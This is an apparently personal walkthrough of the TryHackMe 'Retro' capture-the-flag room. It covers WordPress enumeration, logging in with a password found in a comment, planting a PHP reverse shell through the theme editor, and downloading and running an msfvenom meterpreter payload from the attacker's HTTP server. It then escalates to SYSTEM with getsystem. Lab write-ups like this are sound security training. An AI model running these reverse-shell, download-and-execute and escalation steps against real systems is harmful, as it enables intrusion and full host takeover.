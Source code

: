 ```yaml
---
layout: default
title: Retro
description: THM - Retro
---
```


## Enumeration
Nmap:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 20:18 EEST
Nmap scan report for 10.10.190.35
Host is up (0.067s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.00 seconds
```
Gobuster:
```
/retro
/retro/wp-content
/retro/wp-includes
/retro/wp-login.php
```
From the gobuster results, we figure that the website is running on wordpress.
The host OS is windows, so we may need to look into some powershell later on.

Let's take a look at the website. CTF creators like to hide things in plain sight.

We click on "Wade" and we have all his posts and comments.

Let's read through some posts.

Alright, found nothing, but there was a single comment.

[image](https://github.com/TudM99/tudm99.github.io/blob/main/images/retro_01.png)

Let's try logging into wordpress with that word as a password, and I'll try a few usernames like wade, admin, etc.

And we're in!

Now we'll use the good ol' theme editor to get a reverse shell on the system.

I'll use Twenty Seventeen, with a php shell from Ivan Sincek, but you can go ahead and experiment. Replace the 404.php content with your shell, and launch it.


```
10.10.190.35/retro/wp-content/themes/twentyseventeen/404.php
```
```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.190.35 49854
SOCKET: Shell has connected! PID: 1864
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro\wp-content\themes\twentyseventeen>

```
Great! We have a shell. Let's look around for interesting files, and write permissions.

First of all, I'll pop into powershell since I find it easier to navigate with.
```
PS C:\Users> cd Wade
PS C:\Users\Wade> ls
ls : Access to the path 'C:\Users\Wade' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Wade:String) [Get-Ch 
   ildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell. 
   Commands.GetChildItemCommand
 
PS C:\Users\Wade> 

```
I tried accessing the "Wade" folder, but my access is denied. Same story with the admin folder.

This being a Windows machine, most likely we'll have write access to the public folders. Let's give it a go.

First, I'll generate an msfvenom payload for a reverse_tcp connection.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.116.220 LPORT=9003 -f exe -o reverse.exe
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.18.116.220; set lport 9003; exploit"
```
And now, with a python http server open, let's try to download and execute the "reverse.exe" file
```
PS C:\Users\Public> $url = "http://10.18.116.220:8000/reverse.exe"
PS C:\Users\Public> $outpath = "C:/Users/Public/reverse.exe"
PS C:\Users\Public> Invoke-WebRequest -Uri $url -OutFile $outpath
PS C:\Users\Public> ls


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---        12/8/2019  10:49 PM                Documents                     
d-r---        7/16/2016   6:23 AM                Downloads                     
d-r---        7/16/2016   6:23 AM                Music                         
d-r---        7/16/2016   6:23 AM                Pictures                      
d-r---        7/16/2016   6:23 AM                Videos                        
-a----        9/23/2023  10:42 AM           7168 reverse.exe                   


PS C:\Users\Public>

```

Good, we now have our payload on the machine. Let's try running it.
```
PS C:\Users\Public> .\reverse.exe

payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.18.116.220
lport => 9003
[*] Started reverse TCP handler on 10.18.116.220:9003 
[*] Sending stage (200774 bytes) to 10.10.190.35
[*] Meterpreter session 1 opened (10.18.116.220:9003 -> 10.10.190.35:49874) at 2023-09-23 20:43:39 +0300

meterpreter > getuid
Server username: IIS APPPOOL\retro
meterpreter > 

```
Nice, we have a meterpreter shell.

## Privilege Escalation:

We'll use the default meterpreter "getsystem" command.
```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
We now have system privileges. We can read both flags and submit them!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/retro)

[back](./)
